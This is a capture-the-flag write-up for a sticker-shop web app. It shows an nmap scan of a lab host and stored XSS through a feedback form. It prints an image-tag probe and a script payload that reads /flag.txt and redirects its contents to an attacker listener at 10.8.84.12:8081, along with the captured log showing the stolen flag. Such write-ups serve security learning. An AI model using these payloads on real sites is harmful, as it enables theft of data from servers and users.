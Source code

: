 ```yaml
---
title: "The Sticker Shop"
description: "Sticker shop web app with identified Cross-Site Scripting (XSS) vulnerability "
date: "2024-12-04"
image: "/public/images/00/sticker.pmg"
tags:
  - XSS
---
```


## Overview

During this Capture the Flag (CTF) challenge, the goal was to exploit vulnerabilities in **The Sticker Shop** web application. The primary vulnerability identified was **Cross-Site Scripting (XSS)**, which allowed the injection of malicious scripts, ultimately leading to the extraction of the flag located at `/flag.txt`.

---

## Network Scan

### Nmap Scan

A network scan was performed on the target machine at IP `10.10.181.208` to gather information about open ports and services. The following results were obtained:

```txt
$ nmap -A 10.10.181.208

Nmap Scan Results for 10.10.181.208

Host is up (0.24s latency).

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
8080/tcp open http-proxy Werkzeug/3.0.1 Python/3.8.10

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done at Sat Nov 30 23:55:20 2024 -- 1 IP address (1 host up) scanned in 143.61 seconds

```

The scan revealed two open ports:

- **Port 22**: SSH service
- **Port 8080**: HTTP proxy service running on **Werkzeug/3.0.1** and **Python/3.8.10**

## Website Interaction

Upon visiting `http://10.10.181.208:8080`, the homepage displayed two stickers and their respective prices.

![Homepage](/public/images/00/home.png)

Efforts to access the **flag** at `/flag.txt` returned a **401 Unauthorized** status, indicating that the flag was secured and could not be accessed directly.

![Unauthorized](/public/images/00/sticker.png)

---

## Feedback Form and XSS Testing

![feedback](/public/images/00/feedback.png)

The application features a feedback form that allows users to submit comments. To test for **Cross-Site Scripting (XSS)** vulnerabilities, a simple payload was injected:

```html
<img src="http://10.8.84.12:8081/test" />
```

This payload attempts to load an image from an external server, allowing for the detection of improper input handling.

A basic HTTP server was set up at http://10.8.84.12:8081 to monitor incoming requests:

```bash
python3 -m http.server 8081

10.10.181.208 - - [04/Dec/2024 13:52:30] "GET / HTTP/1.1" 200 -
10.10.181.208 - - [04/Dec/2024 13:52:41] "GET / HTTP/1.1" 200 -
```

This confirmed that the site was vulnerable to XSS, as the payload was executed and the request was made to the server.

## Exploiting XSS to Steal Flag

![xss](/public/images/00/query.png)

The input field was vulnerable to XSS, allowing the injection of a JavaScript payload to fetch the contents of the `/flag.txt` file. Since only GET requests were allowed, the flag could not be directly posted but could be fetched and sent via a redirect.

The following JavaScript payload was crafted:

```js
<script>
  fetch('/flag.txt').then(response=>response.text()) .then(data=>{" "}
  {
    (window.location.href =
      "http://10.8.84.12:8081/?flag" + encodeURIComponent(data))
  }
  )
</script>
```

This script makes a GET request to /flag.txt, retrieves the flag, and redirects to an external server (http://10.8.84.12:8081), appending the flag as a URL parameter.

The payload was submitted through the feedback form, and the following request was captured on the server:

```python
10.10.181.208 - - [04/Dec/2024 14:05:41] "GET /?flag=THM%7B83789a69074f6364a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```
